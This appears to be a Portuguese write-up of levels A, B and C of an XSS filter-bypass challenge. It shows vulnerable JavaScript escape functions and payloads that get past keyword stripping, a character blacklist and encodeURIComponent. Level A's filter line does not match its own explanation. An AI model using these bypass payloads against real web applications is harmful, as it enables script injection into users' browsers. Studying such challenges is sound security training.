 Filtro: `encodeURIComponent` + troca de `prompt` por `alert`. Remove aspas simples `'`.

Resposta: `p'rompt(1)`

O nível A (10) é um dos mais fáceis de resolver neste desafio. Existem duas expressões regulares a serem contornadas: a primeira remove todas as ocorrências da palavra-chave `prompt`, enquanto a segunda remove todas as aspas simples `'`. Para contornar a primeira expressão regular, basta usar uma aspa simples para dividir a palavra-chave `prompt` em `pr'ompt`, o que claramente não é uma instrução JavaScript válida. Mas não se preocupe, a segunda expressão regular removerá o caractere invasor `'`, retornando um vetor de ataque válido!

## level B
```javascript
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}
```
Filtro: proíbe caracteres especiais `em memberName`.

Resposta: `"(prompt(1))in"`

Usamos o operador alfanumérico `in` como parte do payload para injetar uma expressão válida em JavaScript sem usar símbolos proibidos.


## level C
```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```
Filtro: `encodeURIComponent` + troca de `prompt` por `alert`.

Resposta: `eval(0x258da033.toString(30))(1)`

O nível C (12) tem um novo nível de dificuldade por conta do `encodeURIComponent` pois essa função faz com que caracteres como `/ ?` e outros que sejam condificados com URL e impossibilitando usarmos payloads que usamos nos níveis anteriores. Porém um jeito de contornar isso é simplesmente escrever o payload em outra base, como por exemplo hexadecimal. Por conta disso temos que usar `0x258da033.toString` onde `0x258da033` passado pra string fica `prompt` e assim burlando o filtro do level, fazendo a função `eval` chamar prompt por meio da base em hexadecimal e no final adicionar o `(1)`.
